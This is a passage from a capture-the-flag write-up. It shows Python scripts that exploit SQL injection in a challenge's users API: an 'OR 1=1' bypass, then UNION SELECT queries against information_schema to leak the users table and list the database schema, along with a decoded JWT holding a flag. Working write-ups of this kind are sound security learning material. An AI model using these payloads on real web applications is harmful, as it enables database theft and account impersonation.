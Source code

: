 ```python
        return response.text

    def get_username(self, name,full_name):
        self.login()
        response = self.s.get(_(path=f"/api/users.php?name={name}&full_name={full_name}"))
        return response.text

c = Challenge()

print(c.get_username("admin238\\'", "OR 1=1 -- "))
```

This way we could leak the entire users table and found another user in the database: `admin7321034747`. Using the first vulnerability we impersonated this user too and by decoding the cookie we found the flag in the payload section of the jwt token:

```python
{
    "user_id": 928476593,
    "user": "admin7321034747",
    "pass": "asd",
    "full_name": "WP{R00t_Sm1th}",
    "group_id": "928476593",
    "permissions":
    {
        "upload": "1",
        "listFiles": "1",
        "deleteFiles": "1",
        "listUsers": "1",
        "download": "1"
    }
}
```

Now we have also the capability to upload files!

### LegacyLog: WP{pl34se_r3m0v3_l3gacy_stuff}

It was now time to dump the entire database. First we need to know what tables there are in the database, so we added this function to the script:

```python
# No, we are not sorry for the CTF quality code.
def injection(inj):
    r = c.get_username("admin238\\'", f"OR 1=1 UNION SELECT 1337,9001,({inj}),420,69,42 --")
    j = json.loads(r)
    j = j['user'][3]['pass']
    l = j.split(",")
    l = [" ".join(x.split("1337")) for x in l]
    print("\n".join(l))

injection("SELECT group_concat(concat(table_schema,1337,table_name,1337,column_name,1337,data_type,1337,CHARACTER_MAXIMUM_LENGTH)) FROM information_schema.columns")
```

